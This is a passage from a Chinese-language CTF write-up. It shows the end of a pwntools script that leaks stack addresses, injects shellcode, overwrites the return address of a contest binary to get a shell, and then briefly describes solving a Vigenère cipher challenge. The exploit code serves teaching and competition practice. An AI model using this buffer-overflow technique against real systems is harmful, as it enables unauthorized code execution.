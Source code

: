 ```python
	for i in xrange(4):
		r.recvuntil("4. exit\n")
		temp.append(pop(r))
	
	# calculate buffer address & address for ecx
	buf_addr = numpy.int32(temp[3] - 0x60)
	ecx_addr = numpy.int32(temp[3] + 0x18)
	log.info("buffer address: "+hex(buf_addr&0xffffffff))
	log.info("ecx address: "+hex(ecx_addr&0xffffffff))

	# restore stack
	for c in reversed(temp):
		r.recvuntil("4. exit\n")
		push(r, c)

	# shellcode
	for c in payload:
		r.recvuntil("4. exit\n")
		push(r, c)

	# padding
	for i in xrange(8, 23):
		r.recvuntil("4. exit\n")
		push(r, 1)

	# important address for ecx
	r.recvuntil("4. exit\n")
	push(r, ecx_addr)

	# padding
	for i in xrange(24, 29):
		r.recvuntil("4. exit\n")
		push(r, 1)

	# return address
	r.recvuntil("4. exit\n")
	push(r, buf_addr)

	# invoke BOF
	r.recvuntil("4. exit\n")
	r.sendline("4")

	r.interactive()

```

# CRYPTO
## CRYPTO1
給了一個 vigenere.txt，很明顯的就是要我們解 [Vigenère cipher](https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher)
秉持著懶人懶到底的精神  
直接 google "vigenere cipher decoder"，找到了一堆網站  
通通丟進去解，接著開始拼拼湊湊( 總不可能解完整 )  
最後靠著 [這個](http://www.mygeocachingprofile.com/codebreaker.vigenerecipher.aspx) 還有 [這個](https://f00l.de/hacking/vigenere.php) 推出 key 的位置在  
```
http://ctf.ais3.org/files/thekeyofvigenerehahaha.txt
```
進去之後就是 flag 了  
